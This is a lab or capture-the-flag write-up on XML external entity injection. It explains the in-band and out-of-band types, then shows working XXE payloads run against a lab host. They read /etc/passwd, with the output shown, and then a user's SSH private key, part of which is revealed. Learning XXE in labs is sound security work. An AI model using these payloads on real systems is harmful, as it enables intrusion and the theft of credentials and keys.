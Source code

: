 # 04. XML External Entity - Exploiting

[Part 1. Before we start]

What is XML external entity injection?

- XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the server, and to interact with backend or external systems that the application itself can access.
- They can also cause Denial of Service (DoS) attack or could use XXE to perform Server-Side Request Forgery (SSRF) inducing the web application to make requests to other applications. XXE may even enable port scanning and lead to remote code execution.

There are two types of XXE attacks: in-band and out-of-band (OOB-XXE).

1. An in-band XXE attack is the one in which the attacker can receive an immediate response to the XXE payload.
2. out-of-band XXE attacks (also called blind XXE), there is no immediate response from the web application and attacker has to reflect the output of their XXE payload to some other file or their own server.

[Part 2. Exploit]

Target: http://10.10.106.3/

- Firstly, we just try a simple payload to display my name

```
// It defines an entity named name with the replacement text "hieu"
<!DOCTYPE replace [<!ENTITY name "hieu"> ]>
<userInfo>
<firstName>vu</firstName>
//entity reference replaced with the value defined in the external entity declaration, which is "hieu"
<lastName>&name;</lastName>
</userInfo>
```

- I don’t really learn about xml much but it’s like we define a variable with specific value
- Now i try to read the file /etc/passwd with the uri: file:///etc/passwd

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY payload SYSTEM "file:///etc/passwd"> ]>
<userInfo>
<firstName>vu</firstName>
<lastName>&payload;</lastName>
</userInfo>
```

+) The output:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
.......
falcon:x:1000:1000:falcon:/home/falcon:/bin/bash
```

- The name of  the user in /etc/passwd is falcon
- After researching, i know that default location for ssh key is `(/home/USER/.ssh/id_rsa)` .

[https://www.hostdime.com/kb/hd/linux-server/the-guide-to-generating-and-uploading-ssh-keys#:~:text=The default directory for SSH,the public key named id_rsa](https://www.hostdime.com/kb/hd/linux-server/the-guide-to-generating-and-uploading-ssh-keys#:~:text=The%20default%20directory%20for%20SSH,the%20public%20key%20named%20id_rsa).

- And we all knows that falcon is in the dir /home/falcon

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY payload SYSTEM "file:///home/falcon/.ssh/id_rsa"> ]>
<userInfo>
<firstName>vu</firstName>
<lastName>&payload;</lastName>
</userInfo>
```

+) Or you can use the payload shorter like this  

```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/falcon/.ssh/id_rsa'>]>
<root>&read;</root>
```

⇒  falcon's SSH key located is located at **/home/falcon/.ssh/id_rsa** and the first 18 characters for falcon's private key is **MIIEogIBAAKCAQEA7b**
